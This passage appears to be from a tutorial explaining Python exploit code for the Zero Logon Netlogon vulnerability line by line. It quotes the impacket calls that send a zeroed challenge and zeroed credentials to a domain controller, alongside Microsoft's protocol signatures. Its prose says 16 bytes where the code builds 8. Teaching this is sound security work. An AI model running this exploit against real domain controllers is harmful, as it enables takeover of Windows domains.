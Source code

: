 ```python3
      plaintext = b'\x00' * 8
      ciphertext = b'\x00' * 8

      flags = 0x212fffff

      nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
      try:
        server_auth = nrpc.hNetrServerAuthenticate3(rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,target_computer + '\x00', ciphertext, flags)
```

Line 1 and 2 are establishing two new variables, plaintext and ciphertext
containing 16 Bytes of "\x00" which will be used to exploit the Zero Logon
vulnerability. Line 4 contains a variable called Flags.
These are the default flags observed from a Windows 10 Client (using AES-CFB8)
with the Sign and Seal bit disabled (Source/Credit: Secura).

Line 6 is where the fun beings -- This is where Step 1 beings in Figure 1,
the client creates a NetrServerReqChallenge containing the following information
required by the [Microsoft Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/5ad9db9f-7441-4ce5-8c7b-7b771e243d32):

```text
     NTSTATUS NetrServerReqChallenge(
       [in, unique, string] LOGONSRV_HANDLE PrimaryName,
       [in, string] wchar_t* ComputerName,
       [in] PNETLOGON_CREDENTIAL ClientChallenge,
     );
```

The Primary Name being the DC Handle,
the Computer Name being the Target Computer,
and the Client Challenge being 16 bytes of "\x00".

And the client will receive back, which will be used in Figure 1, Step 2:

```text
    NTSTATUS NetrServerReqChallenge(
       [out] PNETLOGON_CREDENTIAL ServerChallenge
     );
```

Lines 8 sets up a try except (we'll see the rest of that in the next few lines),
but in line 9 is where we actually attempt to exploit the Zero Logon vulnerability,
this would be Figure 1, Step 3. This section requires a fair bit more information,
per the Microsoft Documentation for NetrServerAuthenticate3,
the following is required:

```text
    NTSTATUS NetrServerAuthenticate3(
       [in, unique, string] LOGONSRV_HANDLE PrimaryName,
       [in, string] wchar_t* AccountName,
       [in] NETLOGON_SECURE_CHANNEL_TYPE SecureChannelType,
       [in, string] wchar_t* ComputerName,
       [in] PNETLOGON_CREDENTIAL ClientCredential,
       [in, out] ULONG * NegotiateFlags,
     );
```
